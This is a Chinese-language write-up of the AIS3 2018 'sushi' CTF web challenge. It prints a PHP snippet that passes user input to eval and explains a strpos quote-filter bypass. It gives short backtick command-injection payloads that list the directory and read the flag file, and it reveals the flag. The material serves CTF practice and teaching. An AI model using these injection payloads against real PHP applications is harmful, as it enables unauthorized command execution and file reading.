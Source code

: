 # AIS3 pre-exam 2018: sushi

**Category:** WEB  
**Points:** 3  

## Write-up

**source code：**
```php
<?php
// PHP is the best language for hacker
// Find the flag !!
highlight_file(__FILE__);
$_ = $_GET['🍣'];

if( strpos($_, '"') || strpos($_, "'") ) 
    die('Bad Hacker :(');

eval('die("' . substr($_, 0, 16) . '");');
```

### Analysis:

首先透過觀察可以發現有 `eval` 可以利用，但先前條件是須將 `strpos()` 及 `die()` bypass 掉。

**strpos()**

[`strpos ( string $haystack , mixed $needle [, int $offset = 0 ] )`](http://php.net/manual/en/function.strpos.php) 函式，如果字串中有找到特定字串，則返回第幾位。

假設 `data = ABCDEFG` 並且透過 `strpos(data, 'C')` 則會返回 2 (從0開始計算) 。[1]

**die()**

`die()` 函數會使頁面腳本停止，有點類似迴圈中的 `break`，但 `die` 停止的是整個頁面的程式，並輸出函數中的字串或函數。

**substr**

`substr($_, 0, 16)` 接收的 GET 資料字串長度只能有 16 位數。

**Testing**

首先在程式碼 Copy 一份下來，並隨手架個 Web Server (Apache)，接著加上以下程式碼於 `eval('die("' . substr($_, 0, 16) . '");');` 之前，就可在本機端來觀察填字遊戲的狀態，並且記得開啟 `DEBUG` 選項，讓錯誤訊息出現以提供參考。
```PHP
echo $_;
echo "</br>";
echo "eval(die(\"" . substr($_, 0, 16) . "\"););";
echo "</br>";
```
![testing](testing.png)

### Exploit

1. 藉此透過 [1] 的方式，可以將 `"` 放置在第一位繞過 `strpos($_, '"')`， 並且接著 `"` 來閉合製造空字串 `die(""`。
2. 閉合 `die(""` 成空字串之後，可以注入其他函數來進行系統操作，或是取得系統 Shell，在 PHP 下可以透過 `.` 來接合字串，於是加上送出 GET 參數 `` ".`ls .` . "() ``。

![Exploit1](Exploit1.png)

其中 `ls .` 是 Unix 的指令，檢視當前的目錄，並發現目錄下有 `flag_name_1s_t00_l0ng_QAQQQQQQ`、`index.php`、`phpinfo.php()`，三個檔案。

3. 由於有 `substr($_, 0, 16)` 的長度限制，要瀏覽 `flag_name_1s_t00_l0ng_QAQQQQQQ` 不用算就知道超過限制長度，於是用 `*` 來取代任意長度的字元，送出 GET ``.`cat flag*`."()``，取得好吃的 ~~Sushi~~ (Flag)。

![Exploit2](Exploit2.png)



**GetFlag:**

`AIS3{php_is_very_very_very_easyyyyyy}`

### 額外補充

Payload 的部分 ``.`cat flag*`."()`` 後面的 `."()` 中的 `()` 是沒有意義的，不加上也是可以動的。